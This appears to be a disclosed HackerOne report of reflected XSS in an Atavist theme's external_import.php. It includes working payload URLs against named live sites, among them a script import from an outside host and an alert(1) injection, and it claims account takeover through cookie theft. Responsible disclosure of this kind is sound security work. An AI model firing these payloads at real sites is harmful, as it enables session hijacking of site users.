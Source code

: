 # Reflected XSS on a Atavist theme at external_import.php

## Report Details
- **Report ID**: 976657
- **URL**: https://hackerone.com/reports/976657
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-09-08T10:12:34.981Z
- **Disclosed**: 2020-11-18T14:21:52.969Z

## Reporter
- **Username**: bugra
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: automattic

## Vulnerability Information
## Summary:
Hi team,
I found this php file https://magazine.atavist.com/static/external_import.php , and there is a parameter called `scripts` on this php file. 
Basically, the endpoint prints value of `scripts` parameter to `<script src='$Value'>`.
So we can import any script file like that : https://magazine.atavist.com/static/external_import.php?scripts=//15.rs
Or we can write HTML tags too, there is no encoding : https://magazine.atavist.com/static/external_import.php?scripts=%27%3E%3C/script%3E%3Cscript%3Ealert(1)%3C/script%3E

This endpoint is also available on other websites. Like :
https://docs.atavist.com/static/external_import.php?scripts=%27%3E%3C/script%3E%3Cscript%3Ealert(1)%3C/script%3E
http://www.377union.com/static/external_import.php?scripts=%27%3E%3C/script%3E%3Cscript%3Ealert(1)%3C/script%3E

Also there is no secure flag on the session cookie (`periodicSessionatavist`). So this XSS leads to account takeover.

## Impact

Reflected XSS - account takeover via cookie stealing

Thanks,
Bugra

## Attachments
No attachments
